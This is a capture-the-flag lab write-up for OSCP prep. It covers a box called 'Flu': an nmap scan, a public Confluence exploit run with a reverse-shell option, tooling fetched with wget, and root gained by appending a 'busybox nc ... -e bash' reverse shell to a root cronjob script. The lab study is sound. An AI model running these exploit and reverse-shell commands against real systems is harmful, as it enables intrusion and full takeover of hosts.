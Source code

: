 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Flu
tags: ["priv-esc", "gobuster", "ssh", "persistence", "burpsuite", "directory-traversal"]
---
```


**Start 08:23 07-02-2025**

---
```
Scope:
192.168.192.41
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- flu -sT --min-rate=5000 -T5

PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEXrRUno9oC8lTzQc4mkRYkhVE1WFraJqALzhn+4EmH4j57s4WioLYYYESpMPsdluWAXJreN+LVlUL/5UteMBbI=
|   256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIITU00dnwzhT+PFW6y7qRlFYCQ0UzFakp4R4NIq5TWiS
8090/tcp open  http     syn-ack Apache Tomcat (language: en)
| http-title: Log In - Confluence
|_Requested resource was /login.action?os_destination=%2Findex.action&permissionViolation=true
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 966E60F8EB85B7EA43A7B0095F3E2336
|_http-trane-info: Problem with XML parsing of /evox/about
8091/tcp open  jamlink? syn-ack
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:30 GMT
|     Connection: Close
|   GetRequest: 
|     HTTP/1.1 204 No Content
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Close
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Close
|     content-length: 0
|   Help, Kerberos, LDAPSearchReq, LPDString, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 414 Request-URI Too Long
|     text is empty (possibly HTTP/0.9)
|   RTSPRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:00 GMT
|     Connection: Keep-Alive
|     content-length: 0
|   SIPOptions: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Access-Control-Max-Age: 31536000
|     Access-Control-Allow-Methods: OPTIONS, GET, PUT, POST
|     Server: Aleph/0.4.6
|     Date: Fri, 07 Feb 2025 07:24:35 GMT
|     Connection: Keep-Alive
|_    content-length: 0
```

It seems to be running an **Atlassian Confluence** server which has been covered in [[18. Port Redirection and SSH Tunneling#18.2.1 - Simple Port Forwarding Scenario|this chapter]].  

![](../../../assets/2db6bdb99a649768b43823a4caf61ea1.png)

For this I quickly find a PoC on GitHub I can use:

![](../../../assets/b9fed0e977e243295676b442c32d8c9b.png)

Let's go ahead and boot it up.


# Foothold

```bash
python3 through_the_wire.py --rhost 192.168.192.41 --rport 8090 --lhost 192.168.45.228 --protocol http:// --reverse-shell
```

![](../../../assets/1d05832821b604448dcfdd8810e6a5ae.png)

Ez Pz, let's start enumerating.


## local.txt

![](../../../assets/795b7078fad34813df3b270ddcbea0b9.png)

It appears we're the only user, so let's change to our `/home` directory and start from there.

![](../../../assets/7fad0813ec679c498841ae14068156f2.png)


# Privilege Escalation

![](../../../assets/12efcc54b7cdb27346effa51e24f43dc.png)

![](../../../assets/136156ebad2b267f0fd84949bf71fde8.png)

![](../../../assets/22e1e15d30629ec4b98ea443953ed053.png)

We don't find anything interesting otherwise using linpeas excpet for the `/opt/log-backup.sh` file but I don't know how to leverage it yet, thus I download over `pspy`.

```bash
wget http://192.168.45.228/pspy32 -O pspy
chmod +x pspy
timeout 60s ./pspy
```

![](../../../assets/749a7933dd726350d6fe437b919c703d.png)

And yet again we see what happens underneath:

![](../../../assets/876e51f8e607cc2472fbab6a8a187380.png)

>[!important]
>Since it is a cronjob run by *root* where we have read and write privileges on, we can go ahead and add the following line at the end, which on execute will grant us a `root` shell.

```bash
echo 'busybox nc 192.168.45.228 443 -e bash' >> /opt/log-backup.sh
```

![](../../../assets/31e5548e19c537f701d4e606e373eb18.png)

![](../../../assets/9b155f66f51cb7b13d384169cf67dc98.png)

>[!success]
>Worked like a charm.


## proof.txt

![](../../../assets/3ed74f30ed80ba9ef9e4f20e63934bef.png)

---

**Finished 09:07 07-02-2025**

[^Links]:  [[OSCP Prep]]


